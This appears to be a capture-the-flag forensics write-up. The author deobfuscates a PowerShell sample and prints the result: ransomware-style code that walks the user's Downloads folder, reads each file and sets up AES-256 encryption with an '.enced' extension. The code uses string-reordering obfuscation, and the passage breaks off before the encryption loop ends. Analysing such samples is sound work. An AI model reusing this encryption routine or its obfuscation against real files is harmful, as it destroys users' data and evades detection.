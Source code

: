 Note: I added the dot before 'split' to obtain '.split' as that was the only one that should've remained. All the other dots were removed  

An easy way to deobfuscate this was to run the powershell command that decoded the file but omitting the part that would execute the output.  
Also, I did this in an isolated environment. You can never be too safe (even if this is probably not real malware).  
The result can be seen below

{% highlight powershell %}
a = "$HOME\\downloads"
#"LoadFile" "Path #"C:\WINDOWS\Microsoft.NET\Framework\v2.0.50727\System.Web.dll

[Reflection.Assembly]::('Lo'+'adFi'+'le').Invoke(((("{0}{15}{12}{10}{3}{14}{16}{9}{4}{2}{11}{13}{6}{5}{8}{17}{1}{7}"-f 'C:kb3WI','b','wor','ft','b3Frame','Syste','b3','.dll','m','Tk','b3Microso','kk','Sk','b3v2.0.50727k','.','NDOW','NE','.We'))."REp`Lace"(([CHaR]107+[CHaR]98+[CHaR]51),[striNg][CHaR]92))) | &("{0}{1}" -f 'out-','null')



#cmdlet ForEach-Object at command pipeline position 2
#Supply values for the following parameters:
.("{2}{1}{0}" -f'-ChildItem','et','G') -Path $a | &("{2}{0}{1}"-f'ch-Ob','ject','Forea') 


# - $_.current item in the pipeline - $ert variable stores .enced file extension - for the encrypted file

{		#  here the encryption process starts
		# - $_.current item in the pipeline - $ert variable stores .enced file extension - for the encrypted file
        $ert = $_."FU`LLnAME" + ("{0}{1}{2}"-f '.e','n','ced')
		# get content full name
        $stuff = &("{1}{2}{0}"-f't','Get-Con','ten') $_."fu`LlnaMe"


<# drt = 		72
				84
				66
				123
				114
				52
				110
				115
				48
				109
				51
				119
				104
				51
				82
				125
 #>
        $drt = [System.Convert]::('F'+'romBase'+'6'+'4Strin'+'g').Invoke(("{0}{3}{2}{1}{5}{4}"-f 'SF','0bnMwbTN3aDNS','I','RCe3','Q==','f'))
		
		#r = 
		<# BlockSize       : 128
		FeedbackSize    : 128
		IV              : {141, 245, 106, 78…}
		Key             : {151, 231, 53, 62…}
		KeySize         : 256
		Mode            : CBC
		Padding         : PKCS7